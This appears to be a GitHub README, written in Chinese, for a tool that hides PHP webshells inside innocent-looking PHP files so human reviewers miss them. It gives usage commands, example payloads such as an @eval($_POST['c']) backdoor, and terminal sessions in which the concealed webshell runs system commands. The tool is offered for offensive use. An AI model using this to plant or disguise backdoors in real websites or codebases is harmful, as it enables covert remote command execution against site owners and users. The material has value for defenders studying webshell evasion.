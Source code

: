 # webshell-bypassed-human
见公众号文章：[传送门](https://mp.weixin.qq.com/s?__biz=MzI3OTE4MTU5Mw==&mid=2247483933&idx=1&sn=94c10672d664ae84e233792c09231a47&chksm=eb4ae26bdc3d6b7d0ffc09f9c64ac081e4e2af2d629927321d531b37a86a6333a5635fdf6a16&scene=0&xtrack=1#rd)
，或者见 fb 文章 https://www.freebuf.com/articles/web/241454.html

过人 webshell 的生成工具

```shell
» python hide_webshell.py
usage: hide_webshell.py [-h] -pf PAYLOAD_FILE [--pro] [-wf WEBSHELL_FILE]
                        [--debug]
                        php
hide_webshell.py: error: the following arguments are required: php, -pf/--payload_file
```

将 payload 放在 `-pf` 所指定的路径

## hide webshell
示例：

`python hide_webshell.py hide_webshell.py normal.php -pf payload.txt`

## hide webshell pro
示例：

`python hide_webshell.py normal_pro.php -pf payload.txt --pro`

## payload 示例
- `system("echo \"hacked by Tr0y :)\"");`
- `@eval($_POST["c"]);`

## 完整示例
```
# macr0phag3 in ~/Tr0y/webshell-bypassed-human on git:master ✖︎ [14:45:27]
» cat payload.txt
system("echo \"hacked by Tr0y :)\"");%

# macr0phag3 in ~/Tr0y/webshell-bypassed-human on git:master ✖︎ [14:45:28]
» p hide_webshell.py normal.php -pf payload.txt && php webshell_hidden.php
[+] Hide webshell in normal mode
  [-] Get payload from payload.txt
      Payload is system("echo \"hacked by Tr0y :)\"");
  [-] Get php code from normal.php
[!] Saved webshell as webshell_hidden.php
[!] All done

Bye :)
hacked by Tr0y :)

# macr0phag3 in ~/Tr0y/webshell-bypassed-human on git:master ✖︎ [14:45:31]
» p hide_webshell.py normal_pro.php -pf payload.txt --pro && php webshell_hidden.php
[+] Hide webshell in pro mode
  [-] Get payload from payload.txt
      Payload is system("echo \"hacked by Tr0y :)\"");
  [-] Get php code from normal_pro.php
[!] Saved webshell as webshell_hidden.php
[!] All done

Bye :)
hacked by Tr0y :)

# macr0phag3 in ~/Tr0y/webshell-bypassed-human on git:master ✖︎ [14:48:23]
» cat payload.txt
@eval($_POST["c"]);%

# macr0phag3 in ~/Tr0y/webshell-bypassed-human on git:master ✖︎ [14:48:24]
» p hide_webshell.py normal.php -pf payload.txt && php -r '$_POST["c"]="system(\"id\");"; require("webshell_hidden.php");'
[+] Hide webshell in normal mode
  [-] Get payload from payload.txt
      Payload is @eval($_POST["c"]);
  [-] Get php code from normal.php
[!] Saved webshell as webshell_hidden.php
[!] All done

Bye :)
uid=502(macr0phag3) gid=20(staff) groups=20(staff),12(everyone), ...此处省略

# macr0phag3 in ~/Tr0y/webshell-bypassed-human on git:master ✖︎ [14:48:26]
» p hide_webshell.py normal_pro.php -pf payload.txt --pro && php -r '$_POST["c"]="system(\"id\");"; require("webshell_hidden.php");'
[+] Hide webshell in pro mode
  [-] Get payload from payload.txt
      Payload is @eval($_POST["c"]);
  [-] Get php code from normal_pro.php
[!] Saved webshell as webshell_hidden.php
[!] All done

Bye :)
uid=502(macr0phag3) gid=20(staff) groups=20(staff),12(everyone), ...此处省略
```

## 其他
<img src="https://clean-1252075454.cos.ap-nanjing.myqcloud.com/20200528120800990.png" width="500">

[![Stargazers over time](https://starchart.cc/Macr0phag3/webshell-bypassed-human.svg)](https://starchart.cc/Macr0phag3/webshell-bypassed-human)
